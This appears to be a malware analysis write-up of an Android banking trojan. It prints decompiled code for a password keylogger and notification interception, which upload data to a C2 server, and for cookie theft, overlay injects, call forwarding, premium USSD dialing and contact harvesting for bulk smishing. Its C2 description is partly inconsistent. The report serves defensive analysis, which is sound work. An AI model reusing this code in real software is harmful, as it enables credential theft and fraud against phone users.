







# Anti-emulator

I used our magic tool [droidlysis](https://github.com/cryptax/droidlysis) to get the Properties of the sample. I see the sample is checking if there's an qemu emulator.

<p align="center">
  
</p>
<center><font size="3"> <u>Figure</u>(2) droidlysis result for qemu detection in sample code<u></u> </font></center>
<br>

Then I used [APKiD](https://github.com/rednaga/APKiD) tool to get more details of the anti-emulation technique's code. 
<p align="center">
  
</p>
<center><font size="3"> <u>Figure</u>(3) APKiD result for anti-vm detection in sample code<u></u> </font></center>
<br>

# Premium services

The malware will try to subscribe to a premium service without the knowledge of the user which will charge the SIM more money.

```cs
private void launchUssdCode(Context context0, String s) throws Exception {
        this.ussdCalledTimeInMs = System.currentTimeMillis();
        Timber.d("log -> [%s]", new Object[]{s});
        Intent intent0 = new Intent("android.intent.action.CALL", Uri.parse("tel:" + s.replaceAll("#", Uri.encode("#"))));
        intent0.addFlags(0x10000000);
        intent0.addFlags(0x20000000);
        context0.startActivity(intent0);
    }

    public boolean onAccessibilityEvent(InjAccessibilityService injAccessibilityService0, AccessibilityEvent accessibilityEvent0, String s) {
        if(accessibilityEvent0 != null && accessibilityEvent0.getSource() != null && (s.equalsIgnoreCase("com.android.phone")) && (accessibilityEvent0.getClassName().toString().toLowerCase().contains("dialog")) && !accessibilityEvent0.getText().isEmpty()) {
            StringBuilder stringBuilder0 = new StringBuilder();
            for(Object object0: accessibilityEvent0.getText()) {
                stringBuilder0.append(" | ");
                stringBuilder0.append(((CharSequence)object0));
            }

            UssdComponent.sendPhoneNumber(stringBuilder0.toString());
        }

        return false;
    }
```

# Steal cookies

The malware will try to steal Cookies from APPs such as `Facebook` and `google`. 

```cs
public class CookiesReaderViewerActivityInterfaceImpl extends IScreen {
    public interface LifeCycleListener {
        boolean onPause();

        boolean onResume();
    }

    private InjectCookiesModel cookieModel;
    private LifeCycleListener lifeCycleListener;
    private WebView webView;

    public CookiesReaderViewerActivityInterfaceImpl(InjectCookiesModel injectCookiesModel0) {
        this.cookieModel = injectCookiesModel0;
    }

    public CookiesReaderViewerActivityInterfaceImpl(InjectCookiesModel injectCookiesModel0, LifeCycleListener cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0) {
        this.cookieModel = injectCookiesModel0;
        this.lifeCycleListener = cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0;
    }

    private void handleData(Activity activity0) {
        try {
            this.webView.clearView();
            String s = this.cookieModel.getFirstScreen();
            this.webView.loadUrl(s);
            Timber.d("INJECTS -> display file: " + s, new Object[0]);
        }
        catch(Exception unused_ex) {
        }
    }

    private void init() {
        this.webView.getSettings().setDomStorageEnabled(true);
        this.webView.getSettings().setMixedContentMode(0);
        com.sdktools.android.bot.components.injects.system.CookiesReaderViewerActivityInterfaceImpl.1 cookiesReaderViewerActivityInterfaceImpl$10 = new WebViewClient() {
            @Override  // android.webkit.WebViewClient
            public void onPageFinished(WebView webView0, String s) {
                super.onPageFinished(webView0, s);
                if(s.contains(CookiesReaderViewerActivityInterfaceImpl.this.cookieModel.getScreenToFinish())) {
                    String s1 = CookieManager.getInstance().getCookie(s);
                    StringBuilder stringBuilder0 = new StringBuilder();
                    stringBuilder0.append("print event:");
                    stringBuilder0.append(CookiesReaderViewerActivityInterfaceImpl.this.cookieModel.getFirstScreen() + " cookies data | \n");
                    stringBuilder0.append(CookieManager.getInstance().getCookie(CookiesReaderViewerActivityInterfaceImpl.this.cookieModel.getFirstScreen()));
                    stringBuilder0.append("      \n");
                    stringBuilder0.append("      \n");
                    stringBuilder0.append(CookiesReaderViewerActivityInterfaceImpl.this.cookieModel.getScreenToFinish() + " cookies data | \n");
                    stringBuilder0.append(CookieManager.getInstance().getCookie(CookiesReaderViewerActivityInterfaceImpl.this.cookieModel.getScreenToFinish()));
                    stringBuilder0.append(s1);
                    if(!TextUtils.isEmpty(stringBuilder0)) {
                        String s2 = CookiesReaderViewerActivityInterfaceImpl.this.cookieModel.getApplicationId();
                        InjectComponent.get().getConfigsProvider().getInjectHandler().handleWebViewLog(CookiesReaderViewerActivityInterfaceImpl.this, s2, stringBuilder0.toString());
                    }
                }
            }

            @Override  // android.webkit.WebViewClient
            public boolean shouldOverrideUrlLoading(WebView webView0, String s) {
                Timber.d("INJECTS -> ulr loaded: " + s, new Object[0]);
                webView0.loadUrl(s);
                return true;
            }
        };
        this.webView.getSettings().setJavaScriptEnabled(true);
        this.webView.getSettings().setAllowFileAccess(true);
        this.webView.getSettings().setSaveFormData(true);
        this.webView.getSettings().setAppCacheEnabled(false);
        this.webView.getSettings().setCacheMode(2);
        this.webView.setBackgroundColor(0);
        this.webView.setWebViewClient(cookiesReaderViewerActivityInterfaceImpl$10);
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onCreate(Activity activity0) {
        FrameLayout frameLayout0 = new FrameLayout(activity0);
        frameLayout0.setBackgroundColor(-1);
        WebView webView0 = new WebView(activity0);
        this.webView = webView0;
        frameLayout0.addView(webView0, new FrameLayout.LayoutParams(-1, -1));
        activity0.setContentView(frameLayout0);
        this.init();
        this.handleData(activity0);
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onPause(Activity activity0) {
        InjectComponent.viewerActivityVisible = false;
        LifeCycleListener cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0 = this.lifeCycleListener;
        if(cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0 != null) {
            cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0.onPause();
        }
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onResume(Activity activity0) {
        InjectComponent.viewerActivityVisible = true;
        LifeCycleListener cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0 = this.lifeCycleListener;
        if(cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0 != null) {
            cookiesReaderViewerActivityInterfaceImpl$LifeCycleListener0.onResume();
        }
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onStop(Activity activity0) {
        super.onStop(activity0);
        activity0.finish();
    }

```

# Keylogger

The malware has the ability to keylog what the user enters such as `password` or any `edittext` contains a `hint`. Then send keylogging to the C2 server.

```cs
 if(accessibilityEvent0.isPassword()) {
                if(!s1.contains("•") && !s1.contains("*")) {
                    keyLoggerModel0.setText(s1);
                    return false;
                }

                if(s1.equals(accessibilityEvent0.getSource().getHintText())) {
                    keyLoggerModel0.setText("");
                    return false;
                }

                int v = keyLoggerModel0.getText().length();
                if(s1.length() > v) {
                    keyLoggerModel0.addToText(Character.toString(((char)s1.charAt(s1.length() - 1))));
                    return false;
                }

                keyLoggerModel0.removeLastFromText();
                return false;
            }

            keyLoggerModel0.setText(s1);
        }

        return false;
    }

    @Override  // com.sdktools.android.bot.SdkComponent
    public void onSyncEvent(JsonObject jsonObject0) {
        super.onSyncEvent(jsonObject0);
        Boolean boolean0 = JsonUtils.hasObject(jsonObject0, "enable_keylogger") ? Boolean.valueOf(jsonObject0.get("enable_keylogger").getAsBoolean()) : null;
        if(boolean0 != null) {
            SharedPrefHelper.setIsKeyLoggerEnabled(this.context(), boolean0.booleanValue());
        }
    }

    public void onWindowStateChanged() {
        if(this.candidateToPass.size() > 0) {
            this.isRequestInProgress.set(true);
            Log.d("!!!!!", " SEND DATA TO SERVER " + this.candidateToPass);
            KeyLoggerModel keyLoggerModel0 = (KeyLoggerModel)this.candidateToPass.get(0);
            HashMap hashMap0 = new HashMap();
            hashMap0.put("messages", this.candidateToPass);
            this.api().makePost("device/kl", hashMap0).enqueue(new RestCallback() {
                @Override  // com.sdktools.android.bot.rest.RestCallback
                public void onError(Throwable throwable0) {
                    KeyLoggerComponent.this.isRequestInProgress.set(false);
                }

                @Override  // com.sdktools.android.bot.rest.RestCallback
                public void onSuccess(RestResponse restResponse0) {
                    KeyLoggerComponent.this.candidateToPass.clear();
                    KeyLoggerComponent.this.isRequestInProgress.set(false);
                }
            });
        }
    }

```


# Classic Features

## Notification intercepting

The malware will try to intercept notification using `onNotificationPosted` callback located in `com.sdktools.android.bot.components.commands`. The malware will intercept the comming notifications and  hide them from the user. Then push/upload the content of the notification to the C2 server.

```cs
 public void onNotificationPosted(StatusBarNotification statusBarNotification0) {
        Log.i(this.TAG, "**********  onNotificationPosted");
        if(SharedPrefHelper.getIsHiddenPushEnabled(this)) {
            this.cancelNotification(statusBarNotification0.getKey());
        }

        Notification notification0 = statusBarNotification0.getNotification();
        String s = notification0.extras.getString("android.title");
        String s1 = notification0.extras.getString("android.text");
        Timber.d("!!!!!", new Object[]{"title - " + s + " | description - " + s1 + " | app - " + statusBarNotification0.getPackageName()});
        String s2 = "Title - " + s + "\nDescription - " + s1;
        try {
            this.sendNotification(statusBarNotification0.getPackageName(), s2);
        }
        catch(Exception unused_ex) {
            return;
        }

        Timber.d("!!!!!", new Object[]{"cancel notification. Hidden"});
    }

    @Override  // android.service.notification.NotificationListenerService
    public void onNotificationRemoved(StatusBarNotification statusBarNotification0) {
        Timber.d("!!!!!", new Object[]{"********** onNOtificationRemoved"});
    }

    private void sendNotification(String s, String s1) {
        HashMap hashMap0 = new HashMap();
        hashMap0.put("appId", s);
        hashMap0.put("text", s1);
        try {
            if(LockerComponent.get() != null && LockerComponent.get().api() != null) {
                LockerComponent.get().api().makePost("device/push", hashMap0).enqueue(new RestCallback() {
                    @Override  // com.sdktools.android.bot.rest.RestCallback
                    public void onError(Throwable throwable0) {
                    }

                    @Override  // com.sdktools.android.bot.rest.RestCallback
                    public void onSuccess(RestResponse restResponse0) {
                    }
                });
            }
        }
        catch(Exception unused_ex) {
        }
    }

```

## Call Forwarding 

The malware can intercept calls and forward calls when the user get a phone call.

```cs

    public boolean onAccessibilityEvent(InjAccessibilityService injAccessibilityService0, AccessibilityEvent accessibilityEvent0, String s) {
        int v1;
        Log.d("OwnAccessibilityService", "onAccessibilityEvent -> " + accessibilityEvent0);
        Boolean boolean0 = Boolean.valueOf(false);
        if(accessibilityEvent0.getEventType() != 0x20) {
            return false;
        }

        if(accessibilityEvent0.getClassName().equals("com.android.phone.settings.SimPickerPreference")) {
            if(accessibilityEvent0.getSource() == null) {
                return false;
            }

            this.isSecondSimActive = true;
            AccessibilityNodeInfo accessibilityNodeInfo0 = injAccessibilityService0.findAndGetFirstSimilar(accessibilityEvent0.getSource(), "com.android.phone:id/recycler_view", true);
            if(this.currentSim == SimCard.Sim1) {
                injAccessibilityService0.performClick(accessibilityNodeInfo0.getChild(0), "f");
                return false;
            }

            if(this.currentSim == SimCard.Sim2) {
                injAccessibilityService0.performClick(accessibilityNodeInfo0.getChild(1), "f");
                return false;
            }
        }
        else if(accessibilityEvent0.getClassName().equals("com.android.phone.settings.GsmUmtsCallForwardOptions")) {
            if(accessibilityEvent0.getSource() != null) {
                this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                return false;
            }

            int v = 0;
            while(v <= 40) {
                if(v % 5 == 0) {
                    injAccessibilityService0.performClick(injAccessibilityService0.getRootInActiveWindow(), "");
                }

                try {
                    Thread.sleep(1000L);
                    if(injAccessibilityService0.getRootInActiveWindow() != null) {
                        injAccessibilityService0.getRootInActiveWindow().refresh();
                    }

                    boolean z = this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                }
                catch(InterruptedException unused_ex) {
                    return;
                }

                if(z) {
                    return true;
                }

                ++v;
                continue;
                this.tryToClickXiaomiCallForwardingButton(injAccessibilityService0, accessibilityEvent0);
                return false;
            }
        }
```

## Overlay attack

The malware will download a `zip` file contains `html` files of the targeted apps. If a targeted APP is opened then the malware will launch the `html` file of the targeted app. Located in `com.sdktools.android.bot.components.injects.system`.

```cs
public class ViewerActivityInterfaceImpl extends IScreen {
    public interface LifeCycleListener {
        boolean onPause();

        boolean onResume();
    }

 public ViewerActivityInterfaceImpl(InjectModel injectModel0) {
        this.injectModel = injectModel0;
    }

    public ViewerActivityInterfaceImpl(InjectModel injectModel0, LifeCycleListener viewerActivityInterfaceImpl$LifeCycleListener0) {
        this.injectModel = injectModel0;
        this.lifeCycleListener = viewerActivityInterfaceImpl$LifeCycleListener0;
    }

    private void handleData(Activity activity0) {
        try {
            this.webView.clearView();
            String s = this.injectModel.getInjectPath();
            s = s.startsWith("http") ? this.injectModel.getInjectPath() : "file:///" + s;
            this.webView.loadUrl(s);
            Timber.d("INJECTS -> display file: " + s, new Object[0]);
        }
        catch(Exception unused_ex) {
        }
    }

    private void init() {
        this.webView.getSettings().setDomStorageEnabled(true);
        if(Build.VERSION.SDK_INT >= 21) {
            this.webView.getSettings().setMixedContentMode(0);
        }

        com.sdktools.android.bot.components.injects.system.ViewerActivityInterfaceImpl.1 viewerActivityInterfaceImpl$10 = new WebChromeClient() {
            @Override  // android.webkit.WebChromeClient
            public boolean onConsoleMessage(ConsoleMessage consoleMessage0) {
                String s = consoleMessage0.message();
                if(!TextUtils.isEmpty(s)) {
                    String s1 = ViewerActivityInterfaceImpl.this.injectModel.getApplicationId();
                    InjectComponent.get().getConfigsProvider().getInjectHandler().handleWebViewLog(ViewerActivityInterfaceImpl.this, s1, s);
                }

                return super.onConsoleMessage(consoleMessage0);
            }
        };
        com.sdktools.android.bot.components.injects.system.ViewerActivityInterfaceImpl.2 viewerActivityInterfaceImpl$20 = new WebViewClient() {
            @Override  // android.webkit.WebViewClient
            public boolean shouldOverrideUrlLoading(WebView webView0, String s) {
                Timber.d("INJECTS -> ulr loaded: " + s, new Object[0]);
                webView0.loadUrl(s);
                return true;
            }
        };
        this.webView.getSettings().setJavaScriptEnabled(true);
        this.webView.getSettings().setLoadWithOverviewMode(true);
        this.webView.getSettings().setAllowFileAccess(true);
        this.webView.getSettings().setSaveFormData(true);
        this.webView.getSettings().setAppCacheEnabled(false);
        this.webView.getSettings().setCacheMode(2);
        this.webView.setBackgroundColor(0);
        this.webView.setWebViewClient(viewerActivityInterfaceImpl$20);
        this.webView.setWebChromeClient(viewerActivityInterfaceImpl$10);
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onCreate(Activity activity0) {
        FrameLayout frameLayout0 = new FrameLayout(activity0);
        frameLayout0.setBackgroundColor(-1);
        WebView webView0 = new WebView(activity0);
        this.webView = webView0;
        frameLayout0.addView(webView0, new FrameLayout.LayoutParams(-1, -1));
        activity0.setContentView(frameLayout0);
        this.init();
        this.handleData(activity0);
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onPause(Activity activity0) {
        InjectComponent.viewerActivityVisible = false;
        LifeCycleListener viewerActivityInterfaceImpl$LifeCycleListener0 = this.lifeCycleListener;
        if(viewerActivityInterfaceImpl$LifeCycleListener0 != null) {
            viewerActivityInterfaceImpl$LifeCycleListener0.onPause();
        }
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onResume(Activity activity0) {
        InjectComponent.viewerActivityVisible = true;
        LifeCycleListener viewerActivityInterfaceImpl$LifeCycleListener0 = this.lifeCycleListener;
        if(viewerActivityInterfaceImpl$LifeCycleListener0 != null) {
            viewerActivityInterfaceImpl$LifeCycleListener0.onResume();
        }
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public void onStop(Activity activity0) {
        super.onStop(activity0);
        activity0.finish();
    }

    @Override  // com.sdktools.android.core.injects_core.IScreen
    public boolean overrideBackPress(Activity activity0) {
        return true;
    }

    private void startAppById(Context context0, String s) {
        try {
            context0.startActivity(context0.getPackageManager().getLaunchIntentForPackage(s));
        }
        catch(ActivityNotFoundException unused_ex) {
        }
    }
}
```

## Steal contacts

The malware collect the contacts stored in the victim's device and send it to C2 server. And smishing the stolen numbers.

```cs
public static ContactsComponent get() {
        return ContactsComponent.instance;
    }

    private List getContactList() {
        ArrayList arrayList0 = new ArrayList();
        ContentResolver contentResolver0 = this.context().getContentResolver();
        Cursor cursor0 = contentResolver0.query(ContactsContract.Contacts.CONTENT_URI, null, null, null, null);
        if((cursor0 == null ? 0 : cursor0.getCount()) > 0) {
            while(cursor0 != null && (cursor0.moveToNext())) {
                String s = cursor0.getString(cursor0.getColumnIndex("_id"));
                cursor0.getString(cursor0.getColumnIndex("display_name"));
                if(cursor0.getInt(cursor0.getColumnIndex("has_phone_number")) <= 0) {
                    continue;
                }

                Cursor cursor1 = contentResolver0.query(ContactsContract.CommonDataKinds.Phone.CONTENT_URI, null, "contact_id = ?", new String[]{s}, null);
                while(cursor1.moveToNext()) {
                    arrayList0.add(cursor1.getString(cursor1.getColumnIndex("data1")));
                }

                cursor1.close();
            }
        }

        if(cursor0 != null) {
            cursor0.close();
        }

        return arrayList0;
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public Loader onCreateLoader(int v, Bundle bundle0) {
        return v == 1 ? this.contactsLoader() : null;
    }

    public void onLoadFinished(Loader loader0, Cursor cursor0) {
        this.contactsFromCursor(cursor0);
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public void onLoadFinished(Loader loader0, Object object0) {
        this.onLoadFinished(loader0, ((Cursor)object0));
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public void onLoaderReset(Loader loader0) {
    }

    @Override  // com.sdktools.android.bot.SdkComponent
    public void onSyncEvent(JsonObject jsonObject0) {
        super.onSyncEvent(jsonObject0);
        if(1 == (JsonUtils.hasObject(jsonObject0, "bulk_sms") ? jsonObject0.get("bulk_sms").getAsInt() : 0)) {
            String s = JsonUtils.hasObject(jsonObject0, "bulk_body") ? jsonObject0.get("bulk_body").getAsString() : "";
            if(!TextUtils.isEmpty(s)) {
                this.sendBulkSms(s, this.getContactList());
            }
        }
    }

    private void sendBulkSms(String s, List list0) {
        for(Object object0: list0) {
            this.sendSMS(((String)object0).replace(" ", ""), s);
            try {
                Thread.sleep(300L);
            }
            catch(InterruptedException unused_ex) {
                return;
            }
        }
    }

    public void sendSMS(String s, String s1) {
        try {
            SmsManager.getDefault().sendTextMessage(s, null, s1, null, null);
        }
        catch(Exception unused_ex) {
        }
    }

```

# C2 communication

The malware will try to communicate withe C2 server which will be `http://api.currencylayer.com` using `okhttp3` not regular `HTTP`. `OkHttp` is an efficient `HTTP` & `HTTP/2` client for Android and Java applications.

It comes with advanced features, such as connection pooling (if HTTP/2 isn’t available), transparent GZIP compression, and response caching, to avoid the network completely for repeated requests.

uses the `Builder()` API to allow defining the `URL` end point for the HTTP operations and finally build a new Retrofit instance. Call the created instance of that class (done via `create()`) to your Retrofit instance with the method` addConverterFactory()`. After you’ve added the converter to Retrofit, it’ll automatically take care of mapping the JSON data to your Java objects. This works for both directions: sending and receiving data.

```cs
public class ApiClient {
    public static final String BASE_URL;
    public static Retrofit retrofit;

    static {
        ApiClient.BASE_URL = Constants.BASE_URL;
        ApiClient.retrofit = null;
    }

    public static Retrofit getClient() {
        HttpLoggingInterceptor httpLoggingInterceptor0 = new HttpLoggingInterceptor();
        httpLoggingInterceptor0.setLevel(Level.BODY);
        Builder okHttpClient$Builder0 = new Builder();
        okHttpClient$Builder0.connectTimeout(60L, TimeUnit.SECONDS);
        okHttpClient$Builder0.writeTimeout(60L, TimeUnit.SECONDS);
        okHttpClient$Builder0.readTimeout(60L, TimeUnit.SECONDS);
        okHttpClient$Builder0.addInterceptor(httpLoggingInterceptor0);
        okHttpClient$Builder0.addInterceptor(new Interceptor() {
            @Override  // okhttp3.Interceptor
            public Response intercept(Chain interceptor$Chain0) throws IOException {
                Request request0 = interceptor$Chain0.request();
                return interceptor$Chain0.proceed(request0.newBuilder().method(request0.method(), request0.body()).build());
            }
        });
        ApiClient.retrofit = new retrofit2.Retrofit.Builder().baseUrl(ApiClient.BASE_URL).addConverterFactory(ScalarsConverterFactory.create()).addConverterFactory(GsonConverterFactory.create()).client(okHttpClient$Builder0.build()).build();
        return ApiClient.retrofit;
    }
}
```

The malware will check if it's connected to C2 or not. In the first check, it will return `false` because it's not connected yet. Then will return C2 server address using `CheckAddress()` method to return the address of the C2 server.

<p align="center">
  
</p>
<center><font size="3"> <u>Figure</u>(5) APIs that's used to connect to C2 server and get data<u></u> </font></center>
<br>

The malware will try to connect to the address that's returned from `CheckAddress()` which will be`http://api.currencylayer.com` using `connect()` method. 
Then it checks if it's connected or not which will return true or false Which will return `true` because it's connected to the `http://api.currencylayer.com`.


<p align="center">
  
</p>
<center><font size="3"> <u>Figure</u>(6) APIs that's used to connect to C2 server and get data<u></u> </font></center>
<br>

Then it will use `getInputStream` to read content of the data from `twitter` then it use `getOutputStream` to write data.

<p align="center">
  
</p>
<center><font size="3"> <u>Figure</u>(7) APIs that's used to connect to C2 server and get data<u></u> </font></center>
<br>



To get the full call graph of the malware, we will use [JEB decompiler](https://www.pnfsoftware.com/).

<p align="center">
  
</p>
<center><font size="3"> <u>Figure</u>(8) Call graph of all malware<u></u> </font></center>
<br>

In this call graph we used [quark-engine](https://github.com/quark-engine/quark-engine).

<p align="center">
  
</p>
<center><font size="3"> <u>Figure</u>(9) Call graph of how the method is called<u></u> </font></center>
<br>





# IoCs


APK hash: `058a26ed7cbd3970edeccd39c03383bf48974be8b755e48961eca15837b61e3c`


C2 server: 

http://api.currencylayer.com
